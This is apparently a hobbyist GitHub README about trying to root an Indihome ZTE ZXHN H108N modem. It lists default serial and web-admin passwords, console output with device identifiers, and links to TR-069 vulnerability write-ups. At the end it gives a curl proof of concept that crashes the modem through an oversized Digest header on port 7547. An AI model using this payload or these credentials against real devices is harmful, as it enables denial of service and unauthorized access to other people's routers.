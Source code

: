 # Oprek Modem Indihome Huawei ZXHN H108N

Goal:

- [ ] Gain root access (not yet works)
- [ ] Make it as Access Point, WAN From ethernet (not yet works)


If you have Broadcom version, you can use OpenWRT:
https://openwrt.org/toh/zte/zxhnh108n

This device is Ralink chipset, No root access

## Serial Connection

No root access here.

![Huawei ZXHN H108N Serial Line](images/back-open-serial.jpg)

Password for Serial: theworldinyourhand

for web login: user: support, pwd: theworldinyourhand

**Some Information:**

```
ZTE> sys version

 RAS version: ZXHN H108NV4.0.1a_ZRQ_ID_D67                                     
 System   ID: $2.12.186.0(G94.BY.4)3.20.39.20  20140909_v004  [Sep  9 2014 10:12:52]
 romRasSize: 1664518 
 system up time:     0:10:20 (f273 ticks)
 bootbase version: VTC_SPI_8M1.16 |  2012/12/26

ZTE> sys atsh

RAS version            : ZXHN H108NV4.0.1a_ZRQ_ID_D67                                    
romRasSize             : 1664518
bootbase version       : VTC_SPI_8M1.16 |  2012/12/26
Product Model          : ZXHN H108N
Serial Number          : ZTEERQCG5V02440
MAC Address            : 343759D9B8D0
Default Country Code   : FF
Boot Module Debug Flag : 00
RomFile Version        : 16
RomFile Checksum       : 7076
RAS F/W Checksum       : 9605
SNMP MIB level & OID   : 050000000100000002000000030000000400000005
Main Feature Bits      : 86
Other Feature Bits     :
93 17 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 13 00 00 00

ZTE> sys feature

IPX: yes
IP ONLY: no
AUI: no
AB ADAPTER: no
IDSL ONLY: no
IDSL: no
INTERNAL HUB: no
VLAN_8021Q[web]: no
PKT QoS[web]: no
ACL[web]: no
Filter[web]: no
ADSL[web]: yes
USB[web]: no
Firewall[web]: no
Reverse ETH Ports[web]: no
Half Bridge[web]: no
dy.fi DNS: yes
DDNS: yes
tr069: yes

```

## Rooting

- Activate uPNP and ACS

**Vulnerabilities:**

- https://sudonull.com/post/59881-Too-many-cooks-or-hacking-the-Internet-with-TR-069
- Maybe work? https://www.exploit-db.com/exploits/27044

**Crash/Reboot PoC:**

``` bash
repeat(){ for i in {1..600}; do echo -n "$1"; done; }
curl -H "Authorization: Digest username=$(repeat x)" 192.168.1.1:7547/tr069

```
